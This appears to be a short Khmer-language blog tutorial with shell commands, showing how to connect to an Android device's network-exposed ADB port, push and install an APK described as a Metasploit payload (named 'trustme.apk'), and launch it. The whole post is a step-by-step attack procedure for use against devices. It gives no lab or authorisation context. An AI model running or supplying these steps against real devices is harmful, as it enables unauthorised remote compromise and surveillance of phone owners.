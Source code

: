 ```yaml
---
title: "Android - Install and Run Payload Remotely via ADB"
date: 2025-06-05T13:00:00+07:00
description: របៀបតម្លើងនិងដំណើរការ Payload ពីចម្ងាយ
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- payload
categories:
- ADB
series:
- Android
image: images/feature3/terminal.gif
---
```


#### ភ្ជាប់ម៉ាស៊ីន Android ដោយប្រើប្រាស់ ADB

{{< highlight shell "linenos=table" >}}
//តម្លើងកម្មវិធី ADB
sudo apt-get install android-tools-adb

//ភ្ជាប់ម៉ាស៊ីន Android
adb connect 172.16.xxx.xxx:5555
{{< / highlight >}}

#### តម្លើងកម្មវិធីដោយប្រើប្រាស់ ADB

{{< highlight shell "linenos=table" >}}
//បញ្ជូន Payload ចូលទៅក្នុងម៉ាស៊ីន Android
adb push C:\trustme.apk /sdcard/0/Download/

//តម្លើង Payload តាមរយៈ ADB
adb install trustme.apk (metasploit package payload)
{{< / highlight >}}

#### បើកដំណើរការកម្មវិធីដោយប្រើប្រាស់ ADB

{{< highlight shell "linenos=table" >}}
//បើកបង្ហាញកម្មវិធីដែលបានតម្លើង
//វានឹងបង្ហាញ Package ដែលបានតម្លើង យើងត្រូវមើលចុងកន្ទុយឈ្មោះនៃកម្មវិធី (com.example.etc)
adb shell pm list packages -f -3

//បើកដំណើរការ Payload
adb shell am start -n com.metasploit.stage/.MainActivity

//ដើម្បីដឹងឈ្មោះរបស់ MainActivity យើងអាចប្រើប្រាស់ខាំមិនខាងក្រោម

#windows
adb shell dumpsys package com.example.etc | findstr -i Activity

#linux
adb shell dumpsys package com.example.etc | grep -i activity
{{< / highlight >}}










